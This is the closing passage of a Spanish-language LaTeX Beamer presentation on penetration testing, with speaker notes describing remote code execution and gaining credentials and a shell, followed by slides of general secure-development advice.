        
\includegraphics[width=.8\textwidth]{fragments/pentest/pen5.png}
    \end{figure}
    \note[item]{Y con esto ya ejecutamos código de manera remota}
\end{frame}


\begin{frame}{Finale }
    \centering
    
    \begin{figure}
        \centering
        
\includegraphics[width=.8\textwidth]{fragments/pentest/pen6.png}
    \end{figure}
    \note[item]{Y tenemos las credenciales, una consola y control total del sistema}
\end{frame}


\begin{frame}{Sugerencias y conclusiones }
    \centering
    \begin{itemize}
        \item No usen windows, no los protege de RCE
        \item Usen los frameworks, no reinventen la rueda
        \item Para equipos grandes, pueden utilizar una buena estructura organizacional para mejorar la seguridad del desarrollo
        \item Si pueden, atomicen cada módulo de las aplicaciones. 
    \end{itemize}
\end{frame}

\begin{frame}
    \titlepage
\end{frame}

\end{document}
